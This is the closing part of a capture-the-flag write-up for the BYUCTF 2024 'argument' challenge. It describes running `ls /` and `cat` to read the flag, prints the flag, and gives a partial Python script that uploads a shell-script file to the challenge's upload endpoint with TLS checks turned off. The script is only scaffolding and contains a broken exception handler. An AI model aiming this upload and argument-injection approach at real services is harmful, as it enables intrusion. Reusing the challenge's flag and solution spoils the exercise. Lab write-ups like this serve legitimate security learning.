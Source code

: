 We make a `ls /` to retrieve the name of the flag file and then we make a `cat`.


![image](/assets/img/posts/byuctf24/pwned.png)

The flag is **`byuctf{argument_injection_stumped_me_the_most_at_D3FC0N_last_year}`** !

## Exploit code

```python
#!/usr/bin/env python3

from uuid import uuid4
import requests
import base64
import urllib3
urllib3.disable_warnings()

base_url = "https://argument.chal.cyberjousting.com"
# base_url = "http://127.0.0.1:1337"

routes = {
  "home": f"{base_url}/",
  "download": f"{base_url}/api/download",
  "upload": f"{base_url}/api/upload"
}

class Exploit:
  def __init__(self, s):
    self.uuid = uuid4()
    self.s = s
    self.s.verify = False
    self.s.proxies = {'http':'0.0.0.0:8080', 'https':'0.0.0.0:8080'}
    self.routes = routes
    self.s.get(self.routes['home'])


  def download(self):
    return self.s.get(self.routes["download"]).content.decode().strip().replace('\0', '')


  def upload(self, filename, data):
    files = {
      'file': (filename, data, 'application/x-shellscript'),
    }
    try:
      r = self.s.post(self.routes['upload'], files=files)
    except err as e:
      print("Something went wrong", e)


if __name__ == "__main__":
  x = Exploit(requests.session())
```
